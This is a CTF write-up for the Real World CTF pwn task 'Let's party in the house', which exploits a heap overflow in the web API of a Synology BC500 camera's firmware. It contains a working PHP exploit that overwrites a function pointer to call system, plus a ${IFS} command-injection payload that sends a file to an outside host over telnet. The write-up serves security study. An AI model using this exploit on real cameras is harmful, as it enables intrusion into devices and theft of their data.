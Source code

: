 # Let's party in the house - Real World CTF 6th (pwn, 6 solved, 378p)
## Introduction
Let's party in the house is a pwn task.

An archive containing a kernel, an initramfs, and a shell script to run QEMU is
given.

The kernel and initramfs appear to have been extracted from the version
`1.0.6-0294` of the Synology BC500 camera as stated by the `version.txt` file
found in `player.cpio`:

```
Series=BC
Model=BC500
Device=IP Camera
Version=1.0.44
MinorVersion=23.10.08
```

## Versions
According to the [Synology_SA_23_15] security advisory, this version contains a
vulnerability that was exploited at Pwn2Own 2023.

[Synology_SA_23_15]: https://www.synology.com/en-global/security/advisory/Synology_SA_23_15

It is possible to download the original firmwares from the constructor's website
and diff them.
`player.cpio` is remixed from upstream version `1.0.6-0294` with only few files changed:
- `/etc/init.d/S25_Net` (Internet in QEMU)
- `/etc/passwd.tmp` (removed root password)
- `/init` (just a new line)
- `/etc/rc.d/init.d/webd` (skip account creation on web interface, creds are `admin:admin`)
    ```
    diag action=update key=Custom.Activated boolval=true
    touch /tmp/backdoor /data/app/backdoor /tmp/wdg_disable /data/app/wdg_disable
    ```

Version `1.0.7` has more files, as expected.

## Finding the bug
The challenge hints that the expected vulnerability is accessible from the web
interface.

With both firmwares in hand, it should be relatively easy to do patch-diffing
and find the bug that can be triggered from the web interface.
Just look at the different files, compare them, look at what appears to be
security fix and exploit the bug.

In practice, it's easier to send long strings everywhere. A bug was found on the
`/syno-api/security/info/language` endpoint.

```sh
curl -v http://127.0.0.1:8080/syno-api/security/info/language \
	-X PUT \
	--data-binary '{"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA": "asdf"}' \
	--header 'Content-Type: application/json' \
curl: (52) Empty reply from server
```

The file located at `/mnt/SD0/core_dump_log.txt` can be used to identify where
the bug occured: in `/www/camera-cgi/synocam_param.cgi`.

## Exploitation
The exploitation is very straightforward: the vulnerability identified before is
a heap-based buffer overflow with a function pointer at offset `0xA4`.

This function pointer gets called with `r0` being set to the middle of the
buffer. This is a perfect match for a call to `system`.

One caveat is that, since this is a json string, only valid UTF-8 characters are
accepted.

The exploit abuses the randomness of ASLR to call `system` when the libc is
located at `0x767ae000`.

The payload cannot contain spaces, but this can be bypassed with `${IFS}`.
```sh
/////////////usr/bin/telnet 192.168.1.1 12345 < /flag
```

**Flag**: `rwctf{d0e03372-b885-4418-9de7-145a4e66ec0d}`

## Appendices
### pwn.php
```php
<?php
$libc   = 0x767ae000;
$system = 0x00039070;
$ptr    = $libc + $system;

$sp   = '${IFS}';
$key  = implode($sp, ["/usr/bin/telnet", "0xC0A80101", "12345"]);
$key .= "</flag";
$key .= ";#";
$key  = str_pad($key, 0xA4, "/", STR_PAD_LEFT);

$key .= pack("V", $ptr);
$key  = rtrim($key, "\x00");
$payload = json_encode([$key => 1]);

$curl = curl_init("http://127.0.0.1:8080/syno-api/security/info/language");
curl_setopt_array($curl, [
	//CURLOPT_VERBOSE => true,
	CURLOPT_CUSTOMREQUEST => "PUT",
	CURLOPT_POSTFIELDS    => $payload,
	CURLOPT_HTTPHEADER    => [
		"Content-Type: application/json",
	],
]);

while(1) {
	$t = microtime(true);
	curl_exec($curl);
	$t = microtime(true) - $t;
	printf("\r%f", $t);

	if($t > 1)
		printf("\n");
}
```
